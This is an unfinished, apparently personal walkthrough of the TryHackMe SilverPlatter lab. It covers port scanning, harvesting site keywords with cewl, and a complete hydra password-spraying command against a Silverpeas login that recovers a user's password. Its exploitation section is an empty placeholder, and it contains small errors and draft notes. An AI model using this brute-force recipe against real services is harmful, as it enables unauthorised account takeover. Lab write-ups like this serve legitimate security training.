 ```yaml
---
layout: default
title: "TryHackMe: SilverPlatter Walkthrough (Easy)"
date: 2025-07-16
---
```


# SilverPlatter Walkthrough (Easy)

## Overview
As part of the class [Introduction to Hacking Methodology](https://academy.simplycyber.io/p/introduction-to-hacking-methodology)
I took [these notes](https://www.notion.so/Introduction-to-Hacking-Methodology-GitHub-Pages-23346f98ca3080d18194f3b09c709143?source=copy_link) while hacking a machine called silver-platter.

This is an introductory class and the difficulty of the Linux machine is fairly low; still, this is my first time I have managed to hack one (with some help from one video) and I am very proud of it, so I decided to put this page together to help other students like me.
My main focus with this walkthrough is in highlighting the reasoning behind the commands, as opposed to simply listing all the required steps without justification or context. I hope you will find it useful.

When you look at my solution, do not get discouraged because you fear you would never think about doing some of these things, instead consider that:
1. I have been studying hacking for 6 solid months, and so far this easy machine is all I have to show for it.
2. I used Claude AI to help me every step of the way.
3. I am a software engineer that has been working for 25 years in Silicon Valley.
4. It took me 12 days to completely solve this machine and find both flags (5 days to find the first one.)
5. Since I was stuck during the privesc phase, I had to give a peek to a video in the course that essentially says "I am not gonna tell you yet how to privesc this machine, but I am going to tell you that it has something to do with the fact that tim belongs to the adm group." Sincerely, I don't know how many times I had already looked at the logs and didn't see the password, but once I knew that the solution HAD to be in the logs, I was finally able to see it; so what did I spend the last 7 days doing? In short, chasing rabbit holes, but it does not mean that it was all for nothing, in fact I believe that trying and failing is how I will eventually learn how to hack faster and better.

## Reconnaissance (information gathering)

### Port Scanning
We start with port scanning, that normally means using nmap; we are going to use nmap indirectly via rustscan because rustscan is fast, and we like not having to wait too long; the output is very long, so we are going to cut it down to the essential parts.

```
┌──(kali㉿kali)-[/opt]
└─$ rustscan -a 10.10.160.74 -- -A

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy syn-ack ttl 60

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   79.35 ms  10.6.0.1
2   ... 3
4   149.33 ms silverplatter.thm (10.10.160.74)
```

From the TRACEROUTE section we see that the domain name is **silverplatter.thm** with IPv4 address **10.10.160.74**

Action: we add both the domain and the IPv4 address to the /etc/hosts file, so we will be better able to reuse our commands even if the IP address of the VM changes (because the VM's timeout expires):

Inside the **/etc/hosts** file:

```
[...]
10.10.160.74    silverplatter.thm
[...]
```

### 22/tcp (ssh) OpenSSH 8.9p1 [part 1]
From the port scanning output we gather that OpenSSH is on version 8.9p1 .

### 80/tcp (http) nginx 1.18.0 (Ubuntu)
From the port scanning output we gather that nginx (static web server) is on version 1.18.0 and that the operating system is Ubuntu Linux.

### silverplatter.thm:80
Since on port 80 we have a web server, the first thing we are going to do is to point a web browser to http://silverplatter.thm:80 and visually check the web site.

From the Contact section:

```
Contact

If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```

we collect the following information
- Username: scr1ptkiddy
- Role: project manager
- Silverpeas (likely on port 8080)

So, it appears that there is a Silverpeas server (later we will find that it does run on port 8080) with a user named **scr1ptkiddy**, but we don't know the corresponding password yet.

It is also important, when looking at a web site, to use the View Source feature of all modern web brosers to see whether there are any obvious pieces of interesting information left by the developers in comments (things like users, passwords, and generally speaking, any type of information disclosure that would help us gain an advantage in our attempt to get into the machine.) Unfortunately, in this particular web site's source code there is nothing noteworthy.

### cewl
Since we know about a user named scr1ptkiddy for a Silverpeas server running on the machine we are attacking, it is worth collecting all keywords from the web pages of the web site, and later try to use a program like hydra to find the password for scr1ptkiddy.

Here is the command to scan the web site and collect all its keywords in a file:
cewl http:silverplatter.thm > silverplatter_keywords.txt

This command collects all keywords in silverplatter.thm and saves them into a file.

### hydra
We are going to use hydra to spray all the passwords in silverplatter_keywords.txt .

hydra requires several parameters.
First we run this command to learn more about how to authenticate with Silverpeas:

```
┌──(kali㉿kali)-[/tmp]
└─$ curl -s http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp | grep -E 'name=|type="password"|type="text"'
  <meta name="viewport" content="initial-scale=1.0"/>
          <label><span>Login</span><input type="text" name="Login" id="Login"/></label>
          <label><span>Password</span><input type="password" name="Password" id="Password" autocomplete="off"/></label>
            <input class="noDisplay" type="hidden" name="DomainId" value="0"/>
```

From the above output we see that the DomainId=0 hidden field is critical for Silverpeas authentication.

But we also need to identify a pattern in the Silverpeas’ response that allows us to identify incorrect passwords, so we run this command passing a "wrong password" on purpose (btw, wouldn't it be funny if we realized that 'wrongpassword' were the correct password?!):

```
┌──(kali㉿kali)-[/tmp]
└─$ curl -v -d "Login=scr1ptkiddy&Password=wrongpassword" http://silverplatter.thm:8080/silverpeas/AuthenticationServlet
...
Location: http://silverplatter.thm:8080/silverpeas/Login?ErrorCode=1&DomainId=-1
...
```

From the above we see that ErrorCode=1 appears in Silverpeas' responses when the server rejects incorrect passwords.

So, putting all of the above together, we get to finally write this hydra command:

```
┌──(kali㉿kali)-[/tmp]
└─$ hydra -l scr1ptkiddy -P silverplatter_keywords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:ErrorCode=1"
...
[8080][http-post-form] host: silverplatter.thm   login: scr1ptkiddy   password: adipiscing
...
```

*** PROBLEM: WE HAVEN'T EXPLAINED HOW WE KNOW THAT SILVERPEAS RUNS ON PORT 8080.

From the above output we see that adipiscing is the correct password for scr2ptkiddy.

### 8080/tcp (http-proxy)
Browsing to http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp we enter scr1ptkiddy and adipiscing:

*** PUT SCREENSHOT HERE

## Exploitation (use information gathered during reconnaissance)
Step-by-step walkthrough...


## Lessons Learned
Key takeaways from this challenge...

